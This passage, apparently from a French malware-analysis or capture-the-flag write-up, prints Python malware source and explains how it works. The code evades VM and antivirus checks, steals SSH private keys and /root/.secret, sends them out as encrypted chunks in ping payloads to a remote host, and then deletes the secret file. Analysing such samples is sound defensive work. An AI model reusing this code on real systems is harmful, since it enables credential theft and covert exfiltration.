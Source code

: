 ```python
            n = (p.info['name'] or '').lower()
            for b64av in targets:
                if base64.b64decode(b64av).decode().lower() in n:
                    print('ERR AV')
                    return True
    except:
        pass
    return False

def __exf(path, dst, size=15):
    if not os.path.exists(path):
        return False
    d = open(path, 'rb').read()
    segs = [d[i:i + size] for i in range(0, len(d), size)]
    for seg in segs:
        try:
            payload = AES.new(__k, AES.MODE_CBC, __v).encrypt(__p(seg)).hex()
            cmd = [__b64d('cGluZw=='), __b64d('LWM='), __b64d('MQ=='), __b64d('LXA='), payload, dst]
            subprocess.run(cmd, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        except:
            continue
    return True

def __main():
    if __chk_vm():
        return
    if __chk_av():
        return
    __kll = ['/root/.secret', os.path.expanduser('~/.ssh/id_rsa'), '/root/.ssh/id_rsa']
    for f in __kll:
        if os.path.exists(f):
            __exf(f, __x(__d))
    _kkoo = '/root/.secret'
    if os.path.exists(_kkoo):
        try:
            os.remove(_kkoo)
        except Exception as e:
            pass
if __name__ == '__main__':
    __main()
```

Ce script lit les fichiers "sensibles" comme /root/.secret ou les clés ssh.
Puis il envoie ces données à l'aide de ce payload :

```
ping -c 1 -p <payload-chiffré>
```

>[!IMPORTANT] 
> Les segments originaux ont une taille de 15 octets --> pad avec PKCS#7 --> chiffrés en AES CBC puis converti en hexadécimal.
